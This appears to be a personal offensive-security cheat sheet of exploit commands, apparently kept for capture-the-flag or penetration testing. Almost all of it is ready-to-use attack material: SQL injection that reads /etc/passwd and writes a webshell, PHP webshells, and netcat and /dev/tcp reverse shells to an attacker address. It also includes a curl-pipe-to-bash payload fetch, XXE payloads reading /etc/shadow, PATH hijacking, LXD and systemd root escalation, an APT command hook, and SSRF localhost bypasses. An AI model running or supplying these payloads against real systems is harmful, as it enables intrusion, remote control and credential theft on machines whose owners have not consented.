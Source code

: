 Commands for exploits
---

## SQL Injection

```
Finding out number of columns
---
1' order by <n>;#


Loading files
---
1' union select 1,2, load_file('/etc/passwd');#


Writing webshell
---
1' union select '<?php SYSTEM($_REQUEST[\"cmd\"]) ?>' INTO OUTFILE '/var/www/html/shell.php';# 
```

## WEBSHELLS

Upload these on the server

```
php
---
<?php echo system($_REQUEST['cmd']);?>

shell stabilization
---
python3 -c "import pty;pty.spawn('/bin/bash');"

```

## NC REVERSE SHELLS

General nc commands for reverse shells

```
nc listen on attacker
---
nc -lnvp <port>


nc commands on victim (URL encode pls)
---
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <addr> <port> >/tmp/f
rm -f /tmp/p; mknod /tmp/p p && nc <addr> <port> 0/tmp/p
bash -c 'bash -i >& /dev/tcp/<addr>/<port> 0>&1' <--best


curl bash rev.sh
---
attacker: echo "bash -c 'bash -i >& /dev/tcp/<addr>/<port> 0>&1'" > rev.sh 
victime:  curl <host>:<port>/rev.sh | bash
```

## PHP Reading files

```
php://filter/read=convert.base64-encode/resource=<file>.php
```

## XML ATTACKS

```
LFI
---
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ac SYSTEM "file:///etc/shadow"> ]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>

reading php files
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>
```

## PYTHON ATTACKS

```
eval
---
you can chain eval commands with a comma

eval("25+1,print('hello!')"

os.system
---
inject commands with $() or {}

$(ls)

{--config,/root/root.txt} 

evaluates to 

--config /root.txt
```

## ENV BINARY INJECTION

```
create our own binary, and prepend to PATH
scripts will now look for our binary and execute it
---
echo "commands" > /home/user/binary_name

export PATH=/home/user:$PATH
```

## LXC

```
1. get the image and build it
---
https://github.com/saghul/lxd-alpine-builder

2. bring the image over to the victim
---
python3 -m http.server

3.  import the image
---
lxc image import ./alpine-v3.13-x86_64-20210506_2203.tar.gz --alias privesc

4. mount the image with privileges, and run it
---
lxc init privesc privcontainer -c security.privileged=true
lxc config device add privcontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start privcontainer
lxc exec privcontainer /bin/sh

```

## BAD SERVICE

```
/dev/shm/root.service
---
[Unit]
Description=pwned

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

[Install]
WantedBy=multi-user.target
---


systemctl enable /dev/shm/root.service
systemctl start root.service
```

## APT run comamnds

```
run commands after apt update
---
$ echo "APT::Update::Pre-Invoke {'whoami'};" > 00command
$ mv 00command /etc/apt/apt.conf.d/00command
```


## SSRF

```
https://www.neuralegion.com/blog/ssrf-server-side-request-forgery/#ssrf-bypass


http://0177.0.0.1/ --> (127.0.0.1)
http://2130706433/ --> (127.0.0.1)
http://[::]/
http://0000::1:80/
http://127.1/
http://127.0.1/
http://0/

Play around with caps
```

## JWT

https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens

jku spoofing with https://mkjwk.org/


## Unicode Path Traversal

https://www.compart.com/en/unicode/U+2025

‥/‥/‥


## py decompiler

https://github.com/LucifielHack/pyinstxtractor

